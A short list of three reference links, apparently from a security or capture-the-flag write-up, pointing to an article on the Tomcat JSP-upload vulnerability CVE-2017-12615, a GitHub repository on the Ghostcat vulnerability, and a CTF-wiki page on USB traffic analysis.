[https://devcentral.f5.com/s/articles/apache-tomcat-remote-code-execution-via-jsp-upload-cve-2017-12615-27957](https://devcentral.f5.com/s/articles/apache-tomcat-remote-code-execution-via-jsp-upload-cve-2017-12615-27957)

[https://github.com/00theway/Ghostcat-CNVD-2020-10487/](https://github.com/00theway/Ghostcat-CNVD-2020-10487/)

[https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB-zh/](https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB-zh/)
